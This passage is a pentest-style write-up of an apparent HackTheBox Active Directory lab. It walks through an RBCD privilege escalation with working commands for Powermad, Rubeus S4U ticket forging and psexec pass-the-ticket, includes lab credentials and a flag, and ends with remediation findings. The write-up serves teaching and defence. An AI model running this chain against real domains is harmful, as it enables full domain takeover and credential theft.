

**Findings:** The `Shared Support Accounts` group holds a `GenericAll` Access Control Entry (ACE) on the `DC` computer object. `GenericAll` is the most permissive Active Directory permission — it grants full control over an object, including the ability to write any attribute, including `msDS-AllowedToActOnBehalfOfOtherIdentity`. This attribute controls Resource-Based Constrained Delegation (RBCD), and the ability to write it is the core prerequisite for an RBCD attack.

BloodHound's built-in Windows Abuse guidance for `GenericAll` confirmed the exact attack path:



---

### 3.3. RBCD Pre-Condition Verification

Before executing the RBCD attack, two domain-level prerequisites were confirmed:

**Pre-condition 1 — ms-DS-MachineAccountQuota**

The default value of this attribute determines how many computer accounts a standard domain user can create. A value greater than 0 is required to add an attacker-controlled machine account to the domain without admin rights.

```powershell
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```



**Result:** `ms-DS-MachineAccountQuota = 10`. Standard domain users, including `support`, can add up to 10 computer accounts to the domain. This is required to create the attacker-controlled delegation principal.

**Pre-condition 2 — msDS-AllowedToActOnBehalfOfOtherIdentity on DC**

If this attribute is already populated, it may need to be overwritten. An empty value confirms a clean slate for the attack.

```powershell
upload PowerView.ps1
. ./PowerView.ps1
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
```



**Result:** The `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the DC is empty. The RBCD attack can proceed without needing to overwrite an existing value.

---

### 3.4. Fake Computer Account Creation

Powermad was used to create an attacker-controlled computer account that will serve as the delegation principal in the RBCD chain:

```bash
wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/refs/heads/master/Powermad.ps1
```

```powershell
upload Powermad.ps1
. ./Powermad.ps1
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

![[+] Machine account FAKE-COMP01 added — Evil-WinRM session output confirming the account was successfully created](images/fakecomputer.png)

```powershell
Get-ADComputer -identity FAKE-COMP01
```



**Result:** `FAKE-COMP01$` was successfully created in the domain with SID `S-1-5-21-1677581083-3380853377-188903654-6101`. The attacker controls its credentials and can request Kerberos tickets on its behalf.

---

### 3.5. Configuring Resource-Based Constrained Delegation

Leveraging the `GenericAll` ACE that `Shared Support Accounts` holds over the DC, the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute was updated to authorize `FAKE-COMP01$` to delegate to the DC:

```powershell
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
```



**Result:** The DC's `PrincipalsAllowedToDelegateToAccount` attribute now includes `FAKE-COMP01$`. The Kerberos Distribution Center (KDC) will now honor S4U ticket requests from `FAKE-COMP01$` for services on the DC.

---

### 3.6. S4U Attack and Kerberos Ticket Generation

Rubeus was used to compute the RC4-HMAC hash of `FAKE-COMP01$`'s known password for use in the S4U ticket request:

```bash
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe
```

```powershell
upload Rubeus.exe
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
```



**rc4_hmac:** `58A478135A93AC3BF058A5EA0E8FDB71`

The S4U attack was then executed to obtain a Kerberos service ticket for the `cifs/dc.support.htb` SPN, impersonating the `Administrator` account:

```powershell
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 \
  /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```

**How the S4U extension chain works:**

- **S4U2Self:** Allows a service principal to obtain a Kerberos service ticket for itself on behalf of any arbitrary user, including users who never authenticated. This produces a "forwardable" ticket in the name of the target user.
- **S4U2Proxy:** Takes the S4U2Self ticket and uses it to request a service ticket for a *different* SPN on behalf of the impersonated user. In this case: `cifs/dc.support.htb`.

Because the DC's RBCD attribute now designates `FAKE-COMP01$` as a trusted delegation principal, the KDC honors the S4U2Proxy request and issues a valid service ticket granting `Administrator`-level CIFS access to the DC.

---

### 3.7. Pass-the-Ticket and Domain Admin Access

The base64-encoded Kerberos ticket returned by Rubeus was decoded and converted to `.ccache` format for use with Impacket tools on the attacker machine:

```bash
tr -cd 'A-Za-z0-9+/=' < ticket.kirbi.b64 | base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
```

![ticketConverter.py output showing "converting kirbi to ccache... [+] done", converting the Kerberos ticket to the Linux ccache format](images/converting_kirbi_ccache.png)

The converted ticket was set as the active Kerberos credential cache and used with `psexec.py` to authenticate to the DC as Administrator without supplying a password:

```bash
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```


**Result:** A `SYSTEM`-level interactive shell on the Domain Controller was obtained, authenticated as the impersonated `Administrator` via the Kerberos pass-the-ticket technique. Full domain compromise was achieved.

**root.txt:** `5290c3a759b33208860df509dfb1b08e`

---

## Technical Findings Details

### 1. Hardcoded LDAP Credentials in Publicly Accessible Application Binary — Critical

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| ---------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **CWE**                            | CWE-798: Use of Hard-coded Credentials                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| **CVSS 3.1 Score**                 | 9.8 (Critical) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`                                                                                                                                                                                                                                                                                                                                                                                                        |
| **Description (Incl. Root Cause)** | The custom `UserInfo.exe` application, distributed via an unauthenticated SMB share, embeds the `support\ldap` service account credentials directly in the compiled binary. The password is base64-encoded and then XOR-encrypted using a static key (`"armando"`) and a fixed XOR constant (`0xDF`), both of which are also embedded in the same binary. Because .NET assemblies compile to intermediate language (IL) rather than native code, they are fully decompilable using standard tools such as ILSpy, exposing both the algorithm and the key material in the same decompilation session. The root cause is a design decision to authenticate to LDAP using a service account credential embedded directly in the application rather than using certificate-based authentication or a runtime secrets management solution. |
| **Security Impact**                | An unauthenticated attacker who can access the SMB share can recover the LDAP service account credentials without any brute-forcing or guessing. This provides full read access to the Active Directory LDAP tree, enabling discovery of users, groups, GPOs, and sensitive attributes — including the plaintext password found in Finding #3. This finding is the first link in the full domain compromise chain.                                                          |
| **Affected Host(s)**               | `10.129.60.142:445` (SMB share: `support-tools`, file: `UserInfo.exe.zip`)                                                                                                                                                                                                                                                                                                                                                                                               |
| **Remediation**                    | - Immediately rotate the `ldap` service account password and remove all embedded credentials from `UserInfo.exe` source code — Redesign the application to retrieve credentials at runtime from an approved secrets management solution (Windows DPAPI, Group Managed Service Accounts / gMSA, or an external vault such as HashiCorp Vault or Azure Key Vault) — Until the application is redesigned, restrict the `support-tools` share to only accounts that operationally require access — Implement a mandatory code review gate for any internally developed tool that handles credentials before it is distributed or deployed |
| **References**                     | [MITRE ATT&CK: T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/) · [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)                                                                                                                                                                                                                                                    |

**Evidence:**

```csharp
// Decompiled from UserInfo.exe via Avalonia ILSpy
// UserInfo.Services.Protected class

private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
private static byte[] key = Encoding.ASCII.GetBytes("armando");

// Decrypted result via Python XOR script:
// nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

`Screenshot protect_password.png: ILSpy decompilation of the Protected class showing the hardcoded base64-encoded, XOR-obfuscated credential string and the static key material`

---

### 2. Overpermissive ACL (GenericAll on DC) Enabling RBCD Domain Compromise — Critical

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| ---------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-732: Incorrect Permission Assignment for Critical Resource                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| **CVSS 3.1 Score**                 | 9.0 (Critical) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| **Description (Incl. Root Cause)** | The `Shared Support Accounts` domain group holds a `GenericAll` Access Control Entry (ACE) on the `DC` computer object in Active Directory. `GenericAll` grants unrestricted write access to all attributes of the object, including `msDS-AllowedToActOnBehalfOfOtherIdentity` — the attribute that governs Resource-Based Constrained Delegation (RBCD). Combined with the domain-default `ms-DS-MachineAccountQuota` value of 10 (permitting standard domain users to add computer accounts), any member of `Shared Support Accounts` can: (1) create an attacker-controlled computer account using Powermad, (2) write that account's SID into the DC's RBCD attribute using `Set-ADComputer`, and (3) use the Kerberos S4U2Self/S4U2Proxy extension to obtain a service ticket impersonating any domain user — including Administrator — for any SPN on the DC. The root cause is an overly broad ACE, likely granted to enable a legitimate management workflow, without adequate least-privilege scoping or periodic ACL review. |
| **Security Impact**                | Any member of `Shared Support Accounts` — including a compromised support desk account with no other privileges — can escalate to full domain Administrator and achieve complete control over the Domain Controller and all domain-joined systems. This is the highest-severity finding and directly resulted in full domain compromise during this assessment.                                                                                                                                                                                                          |
| **Affected Host(s)**               | `DC / dc.support.htb` — Active Directory ACL on the DC computer object; `dc.support.htb:88` (Kerberos KDC)                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| **Remediation**                    | - Immediately remove the `GenericAll` ACE from the `Shared Support Accounts` group on the DC computer object and replace it with the minimum specific permissions required for the group's legitimate operational function — Set `ms-DS-MachineAccountQuota` to `0` domain-wide to prevent standard users from creating computer accounts; provision machine accounts only through controlled administrative processes — Conduct a full Active Directory ACL audit using BloodHound or `Get-ACL` across all Tier-0 objects (Domain Controllers, AdminSDHolder, KRBTGT, domain root) to identify and remediate any other over-permissive ACEs — Enable Protected Users security group membership for all privileged accounts to prevent Kerberos delegation abuse against those accounts — Implement a periodic ACL review process as part of routine operational hygiene |
| **References**                     | [MITRE ATT&CK: T1484 — Domain or Tenant Policy Modification](https://attack.mitre.org/techniques/T1484/) · [MITRE ATT&CK: T1558 — Steal or Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/) · [MITRE ATT&CK: T1550.003 — Use Alternate Authentication Material: Pass the Ticket](https://attack.mitre.org/techniques/T1550/003/) · [Elad Shamir — Wagging the Dog: Abusing Resource-Based Constrained Delegation](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html) · [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html) |

**Evidence:**

```powershell
# GenericAll confirmed via BloodHound:
# SHARED SUPPORT ACCOUNTS@SUPPORT.HTB → GenericAll → DC@SUPPORT.HTB

# RBCD attribute written by attacker:
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$

# RC4 hash computed for attacker-controlled machine account:
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
# rc4_hmac: 58A478135A93AC3BF058A5EA0E8FDB71

# S4U impersonation ticket requested:
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 \
  /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt

# Domain Admin shell obtained:
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

`Screenshot support_privs.png: BloodHound graph showing the MemberOf → GenericAll privilege chain from the support user through Shared Support Accounts to the DC computer object`

---

### 3. Plaintext Password Stored in LDAP User Attribute — High

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| ---------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-256: Plaintext Storage of a Password                                                                                                                                                                                                                                                                                                                                                                                                                  |
| **CVSS 3.1 Score**                 | 6.5 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`                                                                                                                                                                                                                                                                                                                                                                                           |
| **Description (Incl. Root Cause)** | The `support` domain user account had its password stored in cleartext in the LDAP `info` attribute — a general-purpose administrative notes field that is not access-controlled beyond standard authenticated LDAP read access. Any authenticated domain user or service account can read this attribute. The `ldap` service account recovered in Finding #1 was used to enumerate the domain and retrieve this value, yielding a second set of credentials without any exploitation, brute-forcing, or hash cracking. The root cause is the use of an unprotected LDAP attribute for credential storage or distribution, likely introduced as a convenience measure during account provisioning. |
| **Security Impact**                | Any attacker or insider who achieves authenticated LDAP access can immediately recover the `support` user's plaintext password. This provided a direct WinRM foothold on the Domain Controller, enabling all subsequent privilege escalation steps. Because the `support` user is a member of `Shared Support Accounts`, this finding chains directly into Finding #2 and the full domain compromise.                                                        |
| **Affected Host(s)**               | `10.129.60.142:389` (LDAP — `CN=support,CN=Users,DC=support,DC=htb`, `info` attribute)                                                                                                                                                                                                                                                                                                                                                                   |
| **Remediation**                    | - Immediately clear the `info` attribute on the `support` account and force a password reset — Audit all user object attributes across the domain (`info`, `description`, `comment`, `extensionAttribute*`, `adminDescription`) for any stored credentials or sensitive data — Implement processes to distribute initial or temporary credentials only via secure, time-limited channels (encrypted communication, a privileged access workstation console session) rather than persistent LDAP attributes — Apply LDAP channel binding and signing requirements to reduce the risk of unauthenticated LDAP enumeration |
| **References**                     | [MITRE ATT&CK: T1087.002 — Account Discovery: Domain Account](https://attack.mitre.org/techniques/T1087/002/) · [CWE-256: Plaintext Storage of a Password](https://cwe.mitre.org/data/definitions/256.html)                                                                                                                                                                                                                                              |

**Evidence:**

```
# ldapsearch result (excerpt) — CN=support,CN=Users,DC=support,DC=htb
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
```

`Screenshot support_user.png: ldapsearch output showing the info attribute of the support user object containing a plaintext password value`

---

### 4. Unauthenticated Guest Access to SMB Share — Medium

| Field                              | Details                                                                                                                                                                                                                                                                                                                 |
| ---------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-284: Improper Access Control                                                                                                                                                                                                                                                                                        |
| **CVSS 3.1 Score**                 | 5.3 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N`                                                                                                                                                                                                                                                         |
| **Description (Incl. Root Cause)** | The `support-tools` SMB share on the Domain Controller was accessible without any authentication. An anonymous or guest connection was sufficient to enumerate the share contents and download files. The root cause is the absence of access controls on a share created for internal IT tool distribution, where authentication requirements were either misconfigured or deliberately disabled for convenience. |
| **Security Impact**                | While the files on the share appear to be legitimate IT tools, the absence of authentication controls allowed an unauthenticated attacker to download `UserInfo.exe` — the binary at the root of Finding #1. Without this unauthenticated access, the credential extraction chain leading to full domain compromise would not have been possible from a fully external starting position. |
| **Affected Host(s)**               | `10.129.60.142:445` (SMB share: `support-tools`)                                                                                                                                                                                                                                                                        |
| **Remediation**                    | - Disable guest and anonymous SMB access on all domain-joined systems via Group Policy — Require authenticated access to the `support-tools` share and restrict it to a specific AD security group containing only accounts that operationally need the tools — Audit all SMB shares across the domain for anonymous or overly broad access using `Get-SmbShareAccess` or `net share` — Review whether the share is necessary at all; consider distributing tools via an authenticated intranet or SCCM/Intune |
| **References**                     | [MITRE ATT&CK: T1135 — Network Share Discovery](https://attack.mitre.org/techniques/T1135/) · [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)                                                                                                                                      |

**Evidence:**

```
smbclient -L \\\\10.129.60.142\\
# Password prompt: Enter (no credentials provided)
# Result: support-tools share enumerated and accessible

smbclient \\\\10.129.60.142\\support-tools
# Password prompt: Enter (no credentials provided)
# Result: successful connection — files accessible for download
```

`Screenshot smb_enum.png: smbclient share listing returned without credentials, showing the support-tools share alongside standard administrative shares`

---

## Remediation Summary

### Short Term

- **Finding #1 (Hardcoded Credentials)** – Rotate the `ldap` service account password immediately and rebuild `UserInfo.exe` without the embedded credential. As an interim control, restrict the `support-tools` SMB share to require authenticated access.
- **Finding #2 (GenericAll on DC)** – Remove the `GenericAll` ACE from the `Shared Support Accounts` group on the DC computer object immediately. This is a single ACE deletion requiring no development effort.
- **Finding #3 (Plaintext Password in LDAP)** – Clear the `info` attribute on the `support` user and any other user objects found to contain credentials, and force password resets for all affected accounts.
- **Finding #4 (Unauthenticated SMB Share)** – Disable anonymous/guest access on the `support-tools` share and require domain group membership for access.

### Medium Term

- **Finding #1 (Hardcoded Credentials)** – Redesign `UserInfo.exe` to retrieve LDAP credentials at runtime from a secrets management solution. Evaluate Group Managed Service Accounts (gMSA) as a passwordless authentication option for service-to-directory communication. Introduce a mandatory credential-handling code review gate for all internal applications before distribution.
- **Finding #2 (GenericAll on DC)** – Conduct a full Active Directory ACL audit using BloodHound across all Tier-0 objects. Replace any over-permissive ACEs (`GenericAll`, `WriteDACL`, `WriteOwner`, `GenericWrite`, delegation attributes) with scoped, least-privilege permissions. Set `ms-DS-MachineAccountQuota` to `0`.
- **Finding #3 (Plaintext Password in LDAP)** – Audit all LDAP user and group object attributes domain-wide for sensitive data. Document and enforce approved channels for secure credential distribution during onboarding and provisioning.

### Long Term

- Implement Active Directory tiering (Tier 0/1/2 model) to enforce separation between accounts that manage Domain Controllers, accounts used for standard operations, and end-user accounts. The `support` user, as a member of a group with DC privileges, violates this principle.
- Enroll all privileged accounts in the **Protected Users** security group to disable NTLM authentication and prevent Kerberos delegation abuse for those accounts.
- Establish a recurring Active Directory ACL review cadence (at minimum quarterly) using BloodHound to detect privilege path regressions before attackers discover them.
- Implement a secrets lifecycle management policy: all service account credentials must be stored in an approved vault, rotated on a defined schedule, and never embedded in application binaries or stored in LDAP attributes.
- Enforce SMB signing on all domain-joined hosts via Group Policy (the DC already required it, per the Nmap scan result: `Message signing enabled and required`; extend this requirement to workstations and member servers to prevent relay attacks across the domain).

---

## Lessons Learned / Skills Demonstrated

**Skill/Technique 1: .NET Binary Reverse Engineering for Credential Recovery.** Identified a custom .NET assembly on an unauthenticated SMB share, determined its file type using the `file` command, and fully decompiled it using Avalonia ILSpy to recover hardcoded LDAP service account credentials protected only by reversible XOR obfuscation. Replicated the decryption logic in Python to recover the plaintext password. This demonstrates that .NET assemblies should never be treated as opaque from a secrets-protection standpoint.

**Skill/Technique 2: Authenticated Active Directory LDAP Enumeration.** Used recovered service account credentials to perform a full authenticated LDAP dump of the `support.htb` domain with `ldapsearch`, identifying a plaintext domain user password stored in the non-standard `info` attribute. This finding highlights the importance of reviewing all LDAP object attributes — not just password hashes — during an Active Directory engagement.

**Skill/Technique 3: BloodHound-Driven Attack Path Discovery.** Collected domain telemetry via SharpHound, ingested it into BloodHound, and identified a non-obvious privilege escalation path from a low-privileged domain user through a group `GenericAll` ACE on the Domain Controller — a finding that would be difficult to surface through manual enumeration alone. Correctly interpreted the attack path and identified RBCD as the applicable exploitation technique.

